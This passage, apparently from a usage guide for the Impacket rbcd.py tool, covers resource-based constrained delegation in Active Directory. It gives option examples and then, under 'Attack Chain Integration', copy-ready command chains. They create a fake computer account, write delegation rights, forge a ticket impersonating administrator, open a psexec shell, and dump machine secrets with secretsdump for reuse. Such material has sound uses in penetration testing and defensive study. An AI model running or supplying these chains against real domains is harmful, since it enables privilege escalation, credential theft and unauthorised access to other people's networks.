 ### Flushing RBCD Configuration
```bash
# Remove all delegation rights from target object
python3 rbcd.py domain.com/admin:password -delegate-to 'TARGET$' -action flush

# Flush RBCD configuration using Kerberos
python3 rbcd.py -k domain.com/admin:password -delegate-to 'COMPROMISED$' -action flush
```

### Advanced Connection Options
```bash
# Use LDAPS for encrypted communication
python3 rbcd.py -use-ldaps domain.com/user:password -delegate-to 'TARGET$' -action read

# Specify domain controller explicitly
python3 rbcd.py -dc-ip 192.168.1.10 domain.com/user:password -delegate-to 'TARGET$' -action read

# Use specific DC hostname
python3 rbcd.py -dc-host dc.domain.com domain.com/user:password -delegate-to 'TARGET$' -action read

# Debug mode with timestamps
python3 rbcd.py -debug -ts domain.com/user:password -delegate-to 'TARGET$' -action read
```

## Attack Chain Integration

### Complete RBCD Attack Chain
```bash
# Step 1: Identify computer accounts you can modify (WriteDacl/WriteProperty rights)
python3 dacledit.py domain.com/user:password -action read -target 'TARGET$' -principal user

# Step 2: Create a new computer account (if needed)
python3 addcomputer.py domain.com/user:password -computer-name 'FAKE$' -computer-pass 'Password123!'

# Step 3: Configure RBCD to allow your controlled account to delegate
python3 rbcd.py domain.com/user:password -delegate-to 'TARGET$' -delegate-from 'FAKE$' -action write

# Step 4: Request service ticket using S4U2Self and S4U2Proxy
python3 getST.py domain.com/FAKE$:Password123! -spn cifs/TARGET.domain.com -impersonate administrator

# Step 5: Use the forged ticket for access
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass domain.com/administrator@TARGET.domain.com
```

### RBCD with Existing Computer Accounts
```bash
# Step 1: Find computer accounts you control (compromised systems)
python3 secretsdump.py domain.com/admin:password@CONTROLLED-PC.domain.com

# Step 2: Use the computer account hash to configure RBCD
python3 rbcd.py -hashes :computer_hash domain.com/CONTROLLED-PC$ -delegate-to 'TARGET$' -delegate-from 'CONTROLLED-PC$' -action write

# Step 3: Impersonate high-value user to target system
python3 getST.py -hashes :computer_hash domain.com/CONTROLLED-PC$ -spn cifs/TARGET.domain.com -impersonate administrator

# Step 4: Access target system as administrator
export KRB5CCNAME=administrator.ccache
```